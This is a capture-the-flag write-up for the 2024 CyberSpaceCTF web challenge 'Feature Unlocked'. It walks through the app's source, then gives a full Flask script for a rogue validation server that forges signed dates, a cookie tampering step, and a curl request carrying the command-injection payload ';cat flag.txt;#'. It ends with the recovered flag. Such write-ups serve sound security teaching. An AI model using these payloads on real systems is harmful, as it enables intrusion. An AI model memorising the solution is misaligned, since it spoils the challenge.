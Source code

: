 ```yaml
---
layout: post
title:  "CyberSpaceCTF - 2024 - Feature Unlocked Writeup"
description: Solution for Feature Unlocked challenge
tags: [CSCTF, CTF, 2024, Web, Writeup, Red Team, Offensive, Challenge]
---
```


# Challenge Description
```
Name: Feature Unlocked
Point: 50
Solves: 184
Author: cryptocat
---
The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..

```

# Analysis
For this challenge, I thought it was an easy one until I read through the messy source code. The flag was hidden in the document root directory of this challenge, located at `/home/user/chroot/app`. <br>

We are provided with the following websites: <br>
The remaining time displayed at `/release` indicates the time left until *`the new feature`* is released: <br>

<kbd><img src="https://github.com/user-attachments/assets/7aedb7fd-e861-4cb6-9b22-069f268f15de"></kbd> <br>

The next one is `/feature` with a clickable link that would redirect us back to `/release`, let's find out what's happening behind the scenes!<br> 

<kbd><img src="https://github.com/user-attachments/assets/93517c66-ae5f-4003-a2ab-b8d63b174e21"></kbd>

# Source code analysis
Directory tree:
```bash
.
├── Dockerfile
├── flag.txt
├── nsjail.cfg
├── run.sh
└── src
    ├── app
    │   ├── __init__.py
    │   ├── main.py
    │   ├── static
    │   │   ├── css
    │   │   │   ├── animations.css
    │   │   │   └── styles.css
    │   │   └── images
    │   │       └── logo.png
    │   └── templates
    │       ├── base.html
    │       ├── feature.html
    │       ├── index.html
    │       └── release.html
    ├── requirements.txt
    ├── run.sh
    └── validation_server
        └── validation.py
```
At the top of `main.py`, we can see that server is using `URLSafeTimedSerializer` with a *random 16 bytes secret* for serialize and deserialize the `access_token`. `DEFAULT_PREFERENCES` cookie and `NEW_FEATURE_RELEASE` date: <br>
<kbd><img src="https://github.com/user-attachments/assets/391e7bec-ce68-406b-bf4b-42bd28901fb6"></kbd>


At `main.py`, we got `/release` which would first check if the `access_token` cookie is presented and then only redirect us if the data value is `access_granted`. <br>
Next, we have an optional GET parameter `debug`. When this value set to true, the system will accept the overidding of validation_server from the `preferences` cookie and perform server validation. If the validation is true, we then will be redirected to `/release` with dumped `access_token` assigned in response header: <br> 
<kbd><img src="https://github.com/user-attachments/assets/7cb4aa50-4132-472b-985a-93d45cdfc92a"></kbd> <br>

After delving into `validate_server`, I saw that it performs another validation through `validate_access()` and return the `date` later than `NEW_FEATURE_RELEASE` date:<br>
<kbd><img src="https://github.com/user-attachments/assets/2a7fb943-c982-4cdc-afb2-8c3c3f5b339a"></kbd> <br>

The `validate_access()` is the last step of validation but this time it just performs token verification using `signature` received from the `validation_server`'s response: <br>
<kbd><img src="https://github.com/user-attachments/assets/e2f61fdf-b933-46af-93a9-2bb5be578b98"></kbd> <br>

A potential OS Command injection found at `/feature` POST method if token deserialization data is `access_granted`, mean that we've got to get the `access_token` cookie to access this hidden feature: <br>
<kbd><img src="https://github.com/user-attachments/assets/7d2585dd-4dcd-48a0-bc69-ed6505adb56e"></kbd>

Then I came up with an idea: <br>
> "What if the `validation_server` value in the `preferences` cookie is the URL of our self-hosted malicious server?"

# Setting up malcious validation server
Using the `validation.py`, we can fully host a validation server with the `date` value adjusted to be later than `NEW_FEATURE_RELEASE`, and then sign the token with a `hash object` including our `date` value. Full python script shown below:<br>
```python
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()) + 7 * 24 * 60 * 60 * 69) # Add more dates here
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8081)
```

Then setup a tunnel using ngrok: <br>
```bash
(monkeontheroof㉿DESKTOP-FLPUJ9V)-[~]
└─$ ngrok http 8081
```

With Burp Suite turned on, send `/release` to repeater and change the `preferences` cookie like this: <br>
```bash
(monkeontheroof㉿DESKTOP-FLPUJ9V)-[~]
└─$ echo '{"theme": "light", "language": "en", "validation_server": "YOUR_VALIDATION_SERVER_HERE"}' | base64 -w 0
```

Then send the GET request to `/release` with `debug` parameter set to `true`, also the modified `preferences` cookie including our malcious validation server: <br>
```bash
┌──(monkeontheroof㉿DESKTOP-FLPUJ9V)-[~]
└─$ curl -s -I https://feature-unlocked-web-challs.csc.tf/release?debug=true -b 'preferences=YOUR_B64_TOKEN'

HTTP/2 200
date: Fri, 06 Sep 2024 17:23:14 GMT
content-type: text/html; charset=utf-8
set-cookie: access_token=ImFjY2Vzc19ncmFudGVkIg.Zts6gg.PLMJ0Id-S1aNwWIUea7HZ7povoM; Secure; HttpOnly; Path=/ # access token dumped
...
```

Took the `access_token` cookie and send a POST request to `/feature` with our payload for the exploitation of OS Command injection: <br>
`curl -X POST https://feature-unlocked-web-challs.csc.tf/feature -d "text=;cat+flag.txt;#" -b "access_token=ImFjY2Vzc19ncmFudGVkIg.Zts_cw.zHs2yfq0altGN1yBnRKLcUzK1S0"` <br>

Flag: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`
